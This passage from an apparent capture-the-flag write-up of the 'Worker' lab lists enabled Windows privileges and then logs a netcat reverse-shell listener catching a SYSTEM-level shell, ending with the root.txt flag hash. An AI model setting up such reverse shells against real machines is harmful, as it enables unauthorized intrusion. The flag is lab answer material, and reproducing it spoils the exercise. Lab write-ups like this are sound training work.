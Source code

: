 ```text
SeSystemProfilePrivilege                  Profile system performance                                         Enabled 
SeSystemtimePrivilege                     Change the system time                                             Disabled
SeProfileSingleProcessPrivilege           Profile single process                                             Enabled 
SeIncreaseBasePriorityPrivilege           Increase scheduling priority                                       Enabled 
SeCreatePagefilePrivilege                 Create a pagefile                                                  Enabled 
SeCreatePermanentPrivilege                Create permanent shared objects                                    Enabled 
SeBackupPrivilege                         Back up files and directories                                      Disabled
SeRestorePrivilege                        Restore files and directories                                      Disabled
SeShutdownPrivilege                       Shut down the system                                               Disabled
SeDebugPrivilege                          Debug programs                                                     Enabled 
SeAuditPrivilege                          Generate security audits                                           Enabled 
SeSystemEnvironmentPrivilege              Modify firmware environment values                                 Disabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled 
SeUndockPrivilege                         Remove computer from docking station                               Disabled
SeManageVolumePrivilege                   Perform volume maintenance tasks                                   Disabled
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled 
SeCreateGlobalPrivilege                   Create global objects                                              Enabled 
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Enabled 
SeTimeZonePrivilege                       Change the time zone                                               Enabled 
SeCreateSymbolicLinkPrivilege             Create symbolic links                                              Enabled 
SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Enabled 

PS W:\agents\agent11\_work\8\s>
```

I was happy to see that my script worked, and I got a reverse shell as `NT Authority/System`!

### Root.txt

```text
┌──(zweilos㉿kali)-[~/htb/worker]
└─$ nc -lvnp 8099                                         
listening on [any] 8099 ...
connect to [10.10.15.98] from (UNKNOWN) [10.10.10.203] 51686
type C:\Administrator\Desktop\root.txt
PS W:\agents\agent11\_work\10\s> cd C:\
PS C:\> cd \users\Administrator\Desktop
PS C:\users\Administrator\Desktop> type root.txt
8af884b2e94242799a6b6dbb19eb9add
```
